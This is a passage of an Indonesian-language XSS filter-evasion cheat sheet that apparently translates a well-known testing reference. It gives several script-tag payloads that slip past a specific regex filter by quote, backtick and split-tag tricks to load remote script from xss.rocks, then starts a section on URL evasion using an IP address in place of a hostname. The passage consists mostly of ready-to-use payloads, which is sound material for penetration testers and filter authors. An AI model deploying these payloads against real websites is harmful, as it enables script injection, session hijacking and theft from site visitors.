 Jika Anda melakukan XSS pada situs yang mengizinkan `<SCRIPT>` tetapi tidak mengizinkan `\<script src...` karena filter regex yang melakukan `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` (Ini penting, karena ini regex telah terlihat di alam liar):

```html
<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

XSS lain yang menghindari filter yang sama: `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`:

```html
<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

XSS lain yang menghindari filter yang sama: `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`

Umumnya, kita tidak membahas teknik mitigasi, tetapi satu-satunya hal yang menghentikan contoh XSS ini adalah, jika Anda masih ingin mengizinkan tag `<SCRIPT>` tetapi skrip jarak jauh bukan mesin status (dan tentu saja ada cara lain untuk mengatasinya jika mereka mengizinkan tag `<SCRIPT>`), gunakan ini:

```html
<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Dan satu serangan XSS terakhir yang harus dihindari, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` menggunakan aksen grave (sekali lagi, tidak berfungsi di Firefox):


```html
<SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>
```


Berikut adalah contoh XSS yang berfungsi jika regex tidak dapat menangkap pasangan tanda kutip yang cocok tetapi sebaliknya akan menemukan tanda kutip apa pun untuk mengakhiri string parameter secara tidak tepat:

```html
<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

XSS ini masih membuat saya khawatir, karena hampir tidak mungkin menghentikannya tanpa memblokir semua konten aktif:

```html
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

### Penghindaran String URL

Serangan berikut berhasil jika `http://www.google.com/` tidak diizinkan secara terprogram:

#### IP Versus Nama Host

```html
<A HREF="http://66.102.7.147/">XSS</A>
```
